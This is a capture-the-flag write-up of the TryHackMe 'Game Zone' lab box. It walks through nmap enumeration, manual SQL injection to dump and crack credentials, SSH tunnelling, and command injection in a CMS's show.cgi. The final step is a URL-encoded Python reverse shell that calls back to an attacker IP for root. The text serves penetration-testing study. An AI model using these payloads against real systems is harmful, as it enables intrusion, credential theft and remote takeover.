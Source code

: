 ```yaml
---
layout: post
title: "Game Zone"
tags: TryHackMe
description: "Use SQL injections, SSH tunneling, manually exploit vulnerable CMS to pwn this box."
---
```


[Game Zone](https://tryhackme.com/room/gamezone) is the fourth machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration
Nmap scan output:
```
nmap -sC -sV -o gamezone <ip>
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-16 06:34 EDT
Nmap scan report for <ip>
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 61:ea:89:f1:d4:a7:dc:a5:50:f7:6d:89:c3:af:0b:03 (RSA)
|   256 b3:7d:72:46:1e:d3:41:b6:6a:91:15:16:c9:4a:a5:fa (ECDSA)
|_  256 53:67:09:dc:ff:fb:3a:3e:fb:fe:cf:d8:6d:41:27:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Game Zone
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

Only two ports are available: `ssh` and `http`.

Open the <ip> in the browser and check the content on port `80`.

## Exploitation

I used `' or 1=1#` to bypass the login form.  
After that, you will be redirected to the `/portal.php` page with a single search bar.  
The official guide is recommending you use `SQLMap` here, but I'm doing this room to prepare myself for the upcoming `OSCP`.  
`SQLMap` is banned on the `OSCP`, plus you can use the `Metasploit` only once. That's why most of my writeups here are using mostly manuals ways to exploit the target.  
You can read about the manual way of `SQLi` [here](https://portswigger.net/web-security/sql-injection/union-attacks), but I'll shrink it down to the key points applicable for this box.  

We got some data back if we are trying the syntax of a basic `UNION` injection:

```
' UNION SELECT 1,2,3#
```
First, we need to know what's inside the DB. We can check `INFORMATION_SCHEMA` for that:  
```
' UNION SELECT 1,(select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.SCHEMATA),3#
```
As an output we got the list of schemas. `information_schema,db,mysql,performance_schema,sys`  
We are interested in `db` at the first place.  
Let's check what tables can we find inside of a `db`:  
```
' UNION SELECT 1,(select group_concat(TABLE_NAME) from INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'db'),3#
```
There are only two tables `post` and `users`. `Users` sounds more like juicy stuff, let's dig in a bit more and extract a column of it:  
```
' UNION SELECT 1,(select group_concat(COLUMN_NAME) from INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users'),3#
```
The output: `username,pwd,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`
Sweet, so there are `username` and `pwd`! Let's extract them:  

```
' UNION SELECT 1,(select username from db.users),3#

agent47
```
and
```
' UNION SELECT 1,(select pwd from db.users),3#

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```
We got credentials! Well, it's still a hash and we have to crack it.  

[JohnTheReaper](https://github.com/openwall/john) can help with that.  

```
/usr/sbin/john -w=/usr/share/wordlists/rockyou.txt ./john.hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********    (agent47)
1g 0:00:00:00 DONE (2020-10-16 04:10) 2.325g/s 6782Kp/s 6782Kc/s 6782KC/s vimivi..veluca
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

The password is redacted due to THM's rule about writeups.  

Now, when you have both username and password you can connect to the machine via `ssh`.  

## PrivEsc
Privilege escalation is very tricky here.  
First, you can check what is running on the machine. This part is nicely described in the official guide, so I will quickly go through it:  

```
agent47@gamezone:~$ ss -tulpn
```
We can see that a service running on port 10000 is blocked via a firewall rule from the outside, so we can't interact with it directly.  
However, we can use `ssh tunneling` to forward this service to some port in our `Kali Linux` machine:  
```
ssh -L 10000:localhost:10000 agent47@<ip>
```
Now if you will navigate to the `localhost:10000` on your `Kali Linux` you will find something new there - the login page for admin section of this site.  
Plus, you already have the credentials! *wink*  

From here, we can find out the name and the version of the CMS.  
The thing is, that if you will check available exploits for this CMS, you will actually find a few, but both of them are `Metasploit` modules.  
Again, my initial goal here is to avoid automated tools.  
Frankly speaking, this one took me a while to figure out.  
As you might guess, we will not 'use' the [exploit](https://www.exploit-db.com/exploits/21851) itself, but I will use the vulnerability described there.  

This is a snippet of the most interesting part from it:

```
res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)
```
Long story short, we can specify the put a random text there, add the `|` symbol, and put our payload there with another `|` at the end.  
If your goal is the flag, you can do something like  
```
http://localhost:10000/file/show.cgi/show.cgi/bin/AAAA|cat%20/root/root.txt|
```
And get your flag.  
But! Our goals here might be different, but I prefer to look at this as on a penetration test, and not a CTF even.  

> SHELL > flag

Let's spawn a shell, then!  

You have access to the system, so you can save you some time with commands like `which python`, `which perl`, etc. You can also check if the flavor of the `nc` supports `-e` flag or not.  

To get the shell I used a command from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for `python`

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
as you will throw it to the browser, don't forget to `URL-encode` all the things:

```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.19.53%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

Open up a listener for your port, you can use something fancy as `1337` if you want to and trigger your `root` shell:
```
localhost:10000/file/show.cgi/show.cgi/bin/AAAA|python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.11.19.53%22%2C1337%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27|
```

Voilà! There you go.

## Takeaway
- I hate `SQLi` too, but you have to learn it to not always blindly rely on your tools
- `Metasploit` is fine, it is well tested, it is rich, etc. But make sure that you can read and understand the code behind it.
- SHELLS > FLAGS! PERIOD!
